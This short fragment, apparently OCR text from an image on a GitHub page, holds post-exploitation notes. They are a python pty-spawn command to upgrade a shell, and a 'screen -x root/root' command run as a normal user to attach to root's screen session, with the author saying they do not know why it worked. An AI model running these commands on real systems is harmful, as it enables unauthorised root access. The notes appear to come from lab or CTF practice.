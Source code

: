 python3 -c 'import pty; pty.spawn("/bin/sh")'

as user...... 
> export TERM=xterm;  /usr/bin/screen -x root/root
> I HAVE NO IDEA WHY IT WORKED>>>>>>>>>>>